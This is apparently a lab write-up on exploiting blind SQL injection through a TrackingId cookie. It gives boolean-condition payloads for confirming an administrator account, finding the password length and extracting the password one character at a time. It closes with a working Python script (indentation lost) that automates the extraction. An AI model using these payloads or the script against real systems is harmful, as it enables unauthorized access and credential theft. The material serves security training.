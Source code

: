  
## Exploiting blind SQL injection by triggering conditional responses

     

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'   
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.   
This behavior is enough to be able to exploit the blind SQL injection vulnerability and retrieve information by triggering different responses conditionally, depending on an injected condition. To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:   
…xyz' AND '1'='1  
…xyz' AND '1'='2   

The first of these values will cause the query to return results, because the injected `AND '1'='1` condition is true, and so the "Welcome back" message will be displayed. Whereas the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed. This allows us to determine the answer to any single injected condition, and so extract data one bit at a time.  
  
For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can determine the length of the password by sending a series of interger input with boolean. And We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.   

To do this, we start with the following input:   
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  
```
```sql
TrackingId=xyz' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
```
	
Verify that the condition is true, confirming that there is a user called administrator.   
  
```sql
TrackingId=xyz' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>5)='administrator'-- 
```	
	
	
Figuring out the length of the password. We can use binary search method to figure out the length of the password.  
BURP SUITE is best to do this with sniper style and sequential numbers as payload.   
  
  
```SQL 
xyz' AND (SELECT SUBSTRING(Password,1,1) FROM Users WHERE Username = 'Administrator')>'m   
```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.   

Next, we send the following input:   
```sql
xyz' AND (SELECT SUBSTRING(Password,1,1) FROM Users WHERE Username = 'Administrator')>'t  
```

	
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:   
```sql
xyz' AND (SELECT SUBSTRING(Password,1,1) FROM Users WHERE Username = 'Administrator')='s  
```
	

We can continue this process to systematically determine the full password for the `Administrator` user.   
  
Doing one requests at a time that too manually will take a whole day to solve.   
BURP SUITE can be used to solve this password character bruter force but on community edition it will take around an hour(for 20 character password) depending upon the length of the password.   
But with PYTHON script, it can be done within 10 min for 20 character long password.  

```python 
import sys  
import requests  
import urllib3  
import urllib  
  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
#proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}  
  
def sqli_password(url):  
password_extracted = ""  
for i in range (1, 21):  
for j in range (32, 126):  
sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)  
sqli_payload_encoded = urllib.parse.quote(sqli_payload)  
cookies = {'TrackingId': 'dGk1lp87llBYRfaU' + sqli_payload_encoded, 'session': 'uidEe9Z9af1pJomLagUWrOrITm6euDPO'}  
r = requests.get(url,cookies=cookies, verify=False,)  
  
if "Welcome" not in r.text:  
sys.stdout.write('\r' + password_extracted + chr(j))  
sys.stdout.flush()  
else:  
password_extracted += chr(j)  
sys.stdout.write('\r' + password_extracted)  
sys.stdout.flush()  
break  
  
def main():  
if len(sys.argv) != 2:  
print("(+) Usage: %s <url>" % sys.argv[0])  
print("(+) Example: %s www.example.com" % sys.argv[0])  
  
url = sys.argv[1]  
print("(+) Retrieving adminstrator password...")  
sqli_password(url)  
  
if __name__ == '__main__':  
main()
```
  

### Note

The `SUBSTRING` function is called `SUBSTR` on some types of database.